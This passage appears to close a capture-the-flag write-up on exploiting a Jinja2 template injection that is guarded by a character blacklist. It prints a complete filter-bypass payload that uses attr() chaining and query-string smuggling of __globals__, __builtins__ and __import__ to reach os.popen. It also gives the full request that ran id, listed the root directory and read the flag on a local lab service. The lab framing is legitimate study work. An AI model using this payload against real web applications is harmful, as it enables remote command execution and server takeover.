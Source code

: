 
And that’s the payload I came with

```html
&#123;%with output=((((request|attr('application'))|attr(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;globals&#39;)))|attr(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;getitem&#39;)))(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;builtins&#39;))|attr(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;getitem&#39;)))(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;import&#39;)))(&#39;os&#39;)|attr(&#39;popen&#39;)(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;cmd&#39;))|attr(&#39;read&#39;)()%&#125;&#123;%print(output)%&#125;&#123;%endwith%&#125;&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=

```

To bypass the filter, I crafted a payload that cleverly navigates around the blacklisted characters

`invalid_chars = ["{{", "}}", ".", "_", "[", "]","\\", "x"]`

I replaced blacklisted characters and patterns with alternatives:

-   `**{{**`  was replaced with  `**{%**`.
-   `**}}**`  was replaced with  `**%}**`.
-   `**.**`  was bypassed by using attribute chaining through the  `request`  object.
-   `**_**`  was avoided by using alternative attribute names and methods.
-   `**[**` **and** `**]**`  were substituted with attribute access via  `attr()`.
-   `**\\**`  and  `**x**`  were sidestepped by constructing the payload in a way that didn't require these characters.

I navigated through the  `request`  attributes to access Python’s  `globals`  and  `builtins`  dictionaries, using the  `import`  function, I imported the  `os`  module and used its  `popen`  method to OS execute commands

— — — — — — — — — — — — — — — — -

And Successfully executed the  `id`  command, confirming root access

```http
http://0.0.0.0:3000/home?token=<>&directory=&#123;%with output=((((request|attr('application'))|attr(request|attr("args")|attr("get")('globals')))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('builtins'))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('import'))('os')|attr('popen')(request|attr("args")|attr("get")('cmd'))|attr('read')()%&#125;&#123;%print(output)%&#125;&#123;%endwith%&#125;&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=id

```


![](https://miro.medium.com/v2/resize:fit:700/1*Xl5B59r9fgJGMBkPuPNcLg.png)

Nice, Root:)

Ran  `ls -lah /`  to list the system files, which revealed the flag's location

![](https://miro.medium.com/v2/resize:fit:695/1*0Kw-zjh-CPKYvW8O7ym5kQ.png)

nice flag is there, lets use  `cat`to read the flag from the file, successfully retrieving it

![](https://miro.medium.com/v2/resize:fit:700/1*TCdBFtrQgv36-ftOkivS8g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*A3zR-rBM2mstqTg5zxvU8w.png)

And That’s it

Bye UwU
